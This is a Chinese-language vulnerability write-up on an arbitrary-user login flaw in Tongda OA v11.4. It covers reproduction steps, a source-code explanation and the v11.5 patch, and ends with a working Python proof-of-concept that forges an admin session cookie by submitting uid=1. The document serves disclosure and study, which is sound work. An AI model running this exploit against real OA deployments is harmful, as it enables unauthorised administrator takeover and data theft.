# 通达 OA Office Anywhere v11.4任意用户登录漏洞复现与原理详细解析（第二处）


## 漏洞概述

通达OA系统采用领先的B/S(浏览器/服务器)操作方式，使得网络办公不受地域限制。 Office Anywhere采用基于WEB的企业计算，主HTTP服务器采用了世界上最先进的 Apache服务器，性能稳定可靠。数据存取集中控制，避免了数据泄漏的可能。提供数据备份工具，保护系统数据安全。多级的权限控制，完善的密码验证与登录验证机制更加强了系统安全性。

通达OA官方更新了V11版本安全补丁，修复了任意用户伪造登录漏洞，该漏洞的操作难度低，危害程度大。未经授权的攻击者通过构造请求包实现用户登录，又由于UID是主键且步进为1递增，从而导致可以指定UID实现任意用户登录（admin的缺省UID为1）。
## 漏洞环境

官网：https://www.tongda2000.com/

下载：https://cdndown.tongda2000.com/oa/2019/TDOA11.4.exe

版本：通达OA V11.X<V11.5

测试系统： 

Windows 7 专业版 64位操作系统 

macOS11.0.1 （攻击机）

python3.7.5

## 漏洞验证
第一步：访问ispirit/login_code.php，在返回值中保存codeuid：{58AA7BF5-725C-F8EB-3324-BE17C4E8F6AA}

第二步：访问general/login_code_scan.php
修改如下：

```
GET请求改为POST请求
添加Content-Type
添加Content-Length
添加请求体codeuid={xxx}&source=pc&uid=1&type=confirm&username=admin
```




这个请求一般会返回status 1

  

  第三步：访问/ispirit/login_code_check.php?codeuid={xxx}

  

  如果请求正常，会返回如下图所示数据 
  

第四步：访问/general/index.php，顺利登录后台，权限是系统管理员，实现任意用户登录
  


## 漏洞原理

漏洞地址存在于general/login_code_scan.php，进入解密后的源码处查看代码，可以看到通过POST请求接收5个参数，然后存到数组里，uid可控，没有对uid进行任何校验，这就产生了漏洞


这里会检测codeuid，如果codeuid存在并且正确会返回1



再后面就没有任何检测了，直接在返回包里返回status



漏洞点要发送5个参数，分别是codeuid，source，uid，type，username

* codeuid必须是实时获取到的，否则无法通过校验

* source只需填入pc、web或者mac其中之一（源码中做了判断,必须是这三个之一才会正常返回status）

* uid为1就是管理员权限，可以通过本地数据库查到，前面几篇博客都说明了，就不多说了。

* 最后并没有对type和username做检测
  

按理发请求的时候这两个任意值都是可以的，但是经过测试username可以是任意值，但是type必须是confirm，否则无法任意用户登录，那么这个type应该是有校验的，只不过不是在这个文件中，所以我们要找到这个校验处。
  校验很可能存在的位置就是下一个步骤，也就是访问/ispirit/login_code_check.php?codeuid={xxx}，找到源码进行查看。
可以看到15行对type进行判断



  

如果type不是confirm就不会执行session操作，换句话就无法保存状态，伪造的管理员cookie也就无法生效了，后续直接访问后台就不会成功，所以type必须是confirm。





## 补丁分析

找到v11.5版本的general/login_code_scan.php文件，可以看到不再直接从UID参数中取UID了，而是通过P参数获取sessionid，再通过sessionid获取数据库中的UID，再通过UID等信息生成TOKEN，最后再通过TOKEN等信息生成缓存，这样就解决了UID可控的问题了




## 总结
该漏洞点存在于general/login_code_scan.php，需要传递5个参数，分别是codeuid、source、uid、type、username、其中codeuid需要发送ispirit/login_code.php请求获取，其他几个参数通过分析源码我们也都知道了，唯独还有/ispirit/login_code_check.php?codeuid={xxx}请求，不知道是从何而来，可能是通过黑盒测试，二维码扫描过程中抓到的吧，也就是个猜测，自己通过APP扫码登录出了点问题，就不再细说了。

## 附：POC
```python3
import json
import requests

def getSession(url):
    vulUrl = url+'/ispirit/login_code.php'
    res = requests.get(vulUrl)
    codeuid = json.loads(res.text)['codeuid']
    print(codeuid)
    confirmUrl = url + '/general/login_code_scan.php'
    data = {
        'codeuid':codeuid,
        'uid': int(1),
        'source': 'pc',
        'type': 'confirm',
        'username': 'admin',
    }

    res = requests.post(confirmUrl,data=data)
    status = json.loads(res.text)['status']
    print(status)
    if status == str(1):
        seesionUrl = url + '/ispirit/login_code_check.php?codeuid='+codeuid
        res = requests.get(seesionUrl)
        print('[*]cookie:'+res.headers['Set-Cookie'])
    else:
        print('[-]failed')


if __name__ == "__main__":
    getSession('http://xxxx/')
```

